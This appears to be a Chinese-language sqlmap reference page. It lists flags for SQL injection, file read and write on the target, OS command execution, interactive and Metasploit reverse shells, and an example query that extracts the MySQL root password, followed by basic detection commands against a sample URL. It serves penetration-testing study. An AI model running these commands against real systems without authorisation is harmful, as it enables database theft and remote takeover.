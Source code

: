 ```
--union-cols #union 查询表记录 
--union-test #union 语句测试 
--union-use  #采用union 注入 
--union-tech orderby #union配合order by 
--data "" #POST方式提交数据(--data "page=1&id=2") 
--cookie "用;号分开"      #cookie注入(--cookies=”PHPSESSID=mvijocbglq6pi463rlgk1e4v52; security=low”) 
--referer ""     #使用referer欺骗(--referer "http://www.baidu.com") 
--user-agent ""  #自定义user-agent 
--proxy "http://127.0.0.1:8118" #代理注入 
--string=""    #指定关键词,字符串匹配. 
--threads 　　  #采用多线程(--threads 3) 
--sql-shell    #执行指定sql命令 
--sql-query    #执行指定的sql语句(--sql-query "SELECT password FROM mysql.user WHERE user = 'root' LIMIT 0, 1" ) 
--file-read    #读取指定文件 
--file-write   #写入本地文件(--file-write /test/test.txt --file-dest /var/www/html/1.txt;将本地的test.txt文件写入到目标的1.txt) 
--file-dest    #要写入的文件绝对路径 
--os-cmd=id    #执行系统命令 
--os-shell     #系统交互shell 
--os-pwn       #反弹shell(--os-pwn --msf-path=/opt/framework/msf3/) 
--msf-path=    #matesploit绝对路径(--msf-path=/opt/framework/msf3/) 
--os-smbrelay  # 
--os-bof       # 
--reg-read     #读取win系统注册表 
--priv-esc     # 
--time-sec=    #延迟设置 默认--time-sec=5 为5秒 
-p "user-agent" --user-agent "sqlmap/0.7rc1 (http://sqlmap.sourceforge.net)"  #指定user-agent注入 
--eta          #盲注 
/pentest/database/sqlmap/txt/
common-columns.txt　　字段字典　　　 
common-outputs.txt 
common-tables.txt      表字典 
keywords.txt 
oracle-default-passwords.txt 
user-agents.txt 
wordlist.txt 
```



## 检测注入

### 基本格式

sqlmap -u “http://www.vuln.cn/post.php?id=1”

默认使用level1检测全部数据库类型

sqlmap -u “http://www.vuln.cn/post.php?id=1”  –dbms mysql –level 3

指定数据库类型为mysql，级别为3（共5级，级别越高，检测越全面）

